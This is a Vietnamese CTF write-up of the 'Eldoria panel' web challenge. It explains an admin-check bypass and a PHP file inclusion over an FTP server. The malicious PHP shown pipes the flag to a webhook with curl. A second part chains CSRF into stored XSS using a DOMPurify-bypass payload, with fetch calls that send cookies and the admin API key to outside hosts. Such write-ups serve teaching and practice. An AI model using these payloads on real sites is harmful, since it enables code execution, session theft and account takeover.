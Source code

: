 ```yaml
---
layout: default
title: "Eldoria panel"
date: 2025-03-31 13:50:55 +0700
tags: [CTF, Cyber Apocalypse CTF 2025: Tales from Eldoria]
---
```

# [web] Eldoria panel - web - medium
>Author: Taneora
- Tên: Eldoria panel
- Description: A development instance of a panel related to the Eldoria simulation was found. Try to infiltrate it to reveal Malakar's secrets.
- *Có source code*
----

## 🔍 Phân tích

Trang web có 4 chức năng chính:

1. Đăng ký, đăng nhập
2. Xem nhiệm vụ
3. Nhận nhiệm vụ
4. Đăng trạng thái cá nhân

---


Khi phân tích source code, ta phát hiện hàm `middleware` để check admin rất ... :

```php 
$adminApiKeyMiddleware = function (Request $request, $handler) use ($app) {
	if (!isset($_SESSION['user'])) {
		$apiKey = $request->getHeaderLine('X-API-Key');
		if ($apiKey) {
			$pdo = $app->getContainer()->get('db');
			$stmt = $pdo->prepare("SELECT * FROM users WHERE api_key = ?");
			$stmt->execute([$apiKey]);
			$user = $stmt->fetch(PDO::FETCH_ASSOC);
			if ($user && $user['is_admin'] === 1) {
				$_SESSION['user'] = [
					'id'              => $user['id'],
					'username'        => $user['username'],
					'is_admin'        => $user['is_admin'],
					'api_key'         => $user['api_key'],
					'level'           => 1,
					'rank'            => 'NOVICE',
					'magicPower'      => 50,
					'questsCompleted' => 0,
					'artifacts'       => ["Ancient Scroll of Wisdom", "Dragon's Heart Shard"]
				];
			}
		}
	}
	return $handler->handle($request);
};
```
Nghĩa là khi không có `$_SESSION['user']` thì mới check xem có phải admin không,còn có `$_SESSION['user']` thì không check gì cả =))) .
-> Có thể thoải mái dùng các chức năng của admin.

**Tại endpoint `POST /api/admin/appSettings`:**

```php
$app->post('/api/claimQuest', function (Request $request, Response $response, $args) {
	$data = json_decode($request->getBody()->getContents(), true);

	[...]

	if (!empty($data['questUrl'])) {
        $validatedUrl = filter_var($data['questUrl'], FILTER_VALIDATE_URL);
        if ($validatedUrl === false) {
            error_log('Invalid questUrl provided: ' . $data['questUrl']);
        } else {
            $safeQuestUrl = escapeshellarg($validatedUrl);
            $cmd = "nohup python3 " . escapeshellarg(__DIR__ . "/bot/run_bot.py") . " " . $safeQuestUrl . " > /dev/null 2>&1 &";
            exec($cmd);
        }
    }
	
	return $response;
})->add($apiKeyMiddleware);
```
Có thể sửa các thuộc tính của server, trong đó có `$GLOBALS['settings']['templatesPath'] ` để khai thác `LFI` thông qua protocol `ftp://` .


## 🧨 Khai thác

Protocol `ftp://` có thể bypass được hàm `file_exists()` nên ta có thể dựng một FTP server serve file PHP độc hại , sau đó thực hiện thay đổi thuộc tính `templatesPath` thành URL đến FTP server.

Tạo file chứa mã PHP độc hại (lưu ý đặt tên file giống tên các templates trong src code, ví dụ dashboard.php).
```php
// dashboard.php
<?php
	system('curl -d `cat /flag* | base64` <webhook>');
?>
```
Hỏi chat GPT để dựng FTP server.

Thay đổi `templatesPath` thành URL đến FTP server:
![](http://note.bksec.vn/pad/uploads/2c148f4d-fa90-4a60-a5e5-fd544dc37ee8.png)

Truy cập `/dashboard` để trigger code PHP và nhận request ở `requestrepo` : 
![](http://note.bksec.vn/pad/uploads/76f9bd29-e3e2-4d42-a11d-ca5785bb68fc.png)


Nhận về flag:

![Flag](http://note.bksec.vn/pad/uploads/cd35619e-01c9-4af1-8bde-1089b54ae0f3.png)

---

## 🚨P/S: CSRF -> XSS để lấy cookie Admin

### Phân tích
Khả năng cao việc hàm middleware check admin là bug ngoài ý muốn của author nên vẫn có cách khác để lấy được cookie của admin.

Phân tích endpoint `/api/updateStatus` : 
```php
// POST /api/updateStatus
$app->post('/api/updateStatus', function (Request $request, Response $response, $args) {
    $data = json_decode($request->getBody()->getContents(), true);  // (A)
    $newStatus = $data['status'] ?? '';
    if (!isset($_SESSION['user'])) {
        $result = ['status' => 'error', 'message' => 'Not authenticated'];
    } else {
        $_SESSION['user']['status'] = $newStatus;                    // (B)
        $pdo = $this->get('db');
        $stmt = $pdo->prepare("UPDATE users SET status = ? WHERE id = ?");
        $stmt->execute([$newStatus, $_SESSION['user']['id']]);
        $result = ['status' => 'updated', 'newStatus' => $newStatus];
    }
    $response->getBody()->write(json_encode($result));
    return $response->withHeader('Content-Type', 'application/json');
})->add($apiKeyMiddleware);
```

1. **CSRF**
Ở đây API này không kiểm tra `Content-Type` : 
`$data = json_decode($request->getBody()->getContents(), true);`
Dù yêu cầu body là JSON, nhưng attacker có thể gửi bằng form HTML với:
`enctype="text/plain"`
PHP vẫn xử lý `$_POST` như `JSON` → `JSON injection` giả mạo request.
2. **Stored XSS**
`$_SESSION['user']['status'] = $newStatus;`
Ở đây dữ liệu `status` do người dùng gửi vào được lưu vào session và DB mà không được lọc/escape, nghĩa là attacker có thể gửi `HTML/JS` → nó sẽ được lưu lại
3. **Con Bot "admin" chạy questUrl user cung cấp**
`$cmd = "nohup python3 run_bot.py " . escapeshellarg($questUrl) ...`
Người dùng có thể cung cấp questUrl, và bot sẽ mở URL đó bằng Selenium (Chrome headless)
-> CSRF -> XSS -> Lấy cookie:

### Exploit
***Bước 1: Host trang độc hại***
Host một trang HTML: 
```html
<form action="http://127.0.0.1:80/api/updateStatus" method="POST" enctype="text/plain">
  <input type="hidden" name='{{"status": "<XSS_PAYLOAD>","foo' value='":"bar"}}'>
</form>
<script>document.forms[0].submit();</script>
```
→ Khi bot truy cập trang này, nó gửi 1 JSON lỗi định dạng, nhưng PHP vẫn parse được → thay đổi status của admin → Stored XSS.

***Bước 2: Stored XSS thực thi khi admin truy cập trang***
Dùng `DOMPurify bypass` + `JSON escaping` (Đọc thêm tại [đây](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes) ):
Payload JS gốc:
```js 
fetch('https://7oih7imb.requestrepo.com/?c=' + encodeURIComponent(document.cookie))
```
Encode thành `String.fromCharCode`:
```js
eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,55,111,105,104,55,105,109,98,46,114,101,113,117,101,115,116,114,101,112,111,46,99,111,109,47,63,99,61,39,43,101,110,99,111,100,101,85,82,73,67,111,109,112,111,110,101,110,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,41))
```
Payload hoàn chỉnh:
```html 
<form id=\\"x \\"><svg><style><a id=\\"</style><img src=x onerror=eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,55,111,105,104,55,105,109,98,46,114,101,113,117,101,115,116,114,101,112,111,46,99,111,109,47,63,99,61,39,43,101,110,99,111,100,101,85,82,73,67,111,109,112,111,110,101,110,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,41))>\\"></a></style></svg></form><input form=\\"x\\" name=\\"namespaceURI\\">
```

***Bước 3: XSS lấy API Key admin***
Payload thực thi JS trong trình duyệt admin:
```js 
fetch('/api/user')
  .then(r => r.json())
  .then(d => fetch('https://attacker.com/log?key=' + d.api_key))
```
🧨 Kết quả cuối:
Admin login → bị inject JS → leak API key
Attacker lấy được quyền admin full access